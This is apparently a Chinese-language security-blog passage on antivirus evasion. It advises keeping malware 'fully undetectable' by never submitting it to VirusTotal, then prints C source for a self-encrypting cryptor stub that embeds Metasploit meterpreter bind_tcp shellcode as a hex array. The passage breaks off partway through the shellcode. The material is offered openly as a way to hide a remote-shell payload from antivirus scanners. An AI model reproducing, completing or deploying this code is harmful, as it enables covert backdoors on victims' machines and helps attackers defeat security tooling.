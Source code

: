 






# 测试

## VirusTotal

VirusTotal（[https://www.virustotal.com](https://www.77169.net/go?url=https://www.virustotal.com)）是针对多个AV的在线扫描的参考平台。

>   众所周知，如果你想要一个未被检测到的恶意软件来保留FUD特性，你应该永远不会发送到VirusTotal

FUD(Fully undetectable),完全不被检测

## 加密的恶意软件



这里的完整代码：https://blog.sevagas.com/Hide-meterpreter-shellcode-in-executable



```c
 
#include <Windows.h>
 
/* Declare new sections to store encrypted code and shellcode data */
#pragma section(".code",execute, read, write)
#pragma section(".codedata", read, write)
// Merge  .codedata into .code (which will be encrypted by cryptor)
#pragma comment(linker,"/MERGE:.codedata=.code")
// Declare .code as Executable, Read, Write section, this is necessary so application rewrites itself
#pragma comment(linker,"/SECTION:.code,ERW")
 
// This will put all following constants and global variables in .codedata segment
// 这会将所有以下常量和全局变量放在 .codedata 段中
#pragma data_seg(".codedata")
#pragma const_seg(".codedata")
// From here executable code will go in .code section
#pragma code_seg(".code")
 
/*
 * windows/meterpreter/bind_tcp - 298 bytes (stage 1)
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=80, RHOST=, EnableStageEncoding=false, 
 * PrependMigrate=false, EXITFUNC=process, AutoLoadStdapi=true, 
 * InitialAutoRunScript=, AutoRunScript=, AutoSystemInfo=true, 
 * EnableUnicodeEncoding=true
 */
unsigned char buf[] = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01"
"\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50"
"\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x31"
```